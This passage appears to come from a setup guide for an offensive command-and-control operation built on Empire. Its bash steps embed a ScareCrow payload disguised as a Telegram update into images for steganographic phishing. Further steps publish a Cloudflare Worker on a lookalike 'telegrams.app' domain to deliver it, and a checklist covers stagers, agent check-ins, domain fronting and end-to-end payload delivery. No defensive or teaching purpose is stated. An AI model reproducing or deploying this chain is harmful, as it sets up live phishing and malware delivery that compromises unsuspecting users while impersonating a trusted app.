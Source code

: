 ```bash
cd /home/kali/Main\ C2\ Framework/advanced-steganography-phishing

# Embed ScareCrow payload in images
python3 large-stego-system.py embed \\
  --payload /home/kali/Main\ C2\ Framework/payloads/telegram-update.exe \\
  --output-dir ./output
```

### Step 8: Deploy Cloudflare Workers

```bash
# Deploy delivery worker
cd workers
wrangler publish enhanced-telegram-delivery.js

# Test worker
curl -X POST https://delivery.telegrams.app/api/deliver \\
  -H "Content-Type: application/json" \\
  -d '{"target_id": "test_user"}'
```

## 📊 Verification Checklist

- [ ] Empire server running on local machine
- [ ] Empire API responding at `http://127.0.0.1:1337`
- [ ] Starkiller UI accessible
- [ ] nginx proxy configured on droplet
- [ ] SSL certificates valid
- [ ] SSH tunnel or direct connection working
- [ ] Listeners created and active
- [ ] Stagers generated successfully
- [ ] Test agent checks in
- [ ] Domain fronting verified
- [ ] Cloudflare workers deployed
- [ ] Steganography system updated
- [ ] End-to-end payload delivery tested

## 🔧 Troubleshooting

### Empire Won't Start
```bash
# Check dependencies
pip3 install -r /opt/Empire/requirements.txt

# Check logs
tail -f /opt/Empire/empire.log

# Reset database
powershell-empire server --reset
```
